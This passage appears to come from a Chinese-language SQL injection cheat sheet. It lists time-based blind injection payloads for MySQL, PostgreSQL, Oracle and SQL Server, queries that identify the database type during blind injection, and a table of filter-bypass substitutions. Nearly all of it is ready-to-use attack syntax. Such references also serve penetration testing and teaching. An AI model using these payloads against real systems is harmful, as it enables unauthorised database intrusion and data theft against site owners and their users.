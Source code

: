 - 条件为真时，执行 1/0，报错（除数不能为 0）

### 时间盲注

#### 基本语法

```sql
-- MySQL
<原语句> AND SLEEP(5)
<原语句> AND if(1=2,1,SLEEP (5))
-- PostgreSQL
<原语句>||pg_sleep(<时间>)
<原语句>||IF(1=2,1,pg_sleep(<时间>))
<原语句>;/*%3B*/SELECT+CASE+WHEN+(<条件>)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END
-- Oracle
<原语句> AND dbms_pipe.receive_message(('a'),5)

-- SQL Server
<原语句> AND WAITFOR DELAY '0:0:5'
```

#### 附：盲注中判断数据库类型

```sql
-- MySQL
ASCII(SUBSTRING(@@version, 1, 1)) = 77

-- Oracle
(SELECT COUNT(*) FROM v$version WHERE banner LIKE '%Oracle%') > 0
(SELECT '1' FROM dual) = '1'

-- PostgreSQL
(SELECT COUNT(*) FROM pg_stat_activity) > 0 

-- SQL Server
(SELECT COUNT(*) FROM sys.databases WHERE name = 'master') > 0

-- SQLite
(SELECT COUNT(*) FROM sqlite_master WHERE type = 'table') > 0

-- DB2
(SELECT COUNT(*) FROM sysibm.sysdummy1) > 0
```

## 常见问题

1. 有时存在查询语句长度限制（Unterminated string literal：未终结的字符串）

## 绕过技巧

| 被过滤内容 | 替代 |
| --- | --- |
| 空格 | `/**/` 或者 `()` |
| = | `like` |
| substring/mid | `right` 或者 `left` |
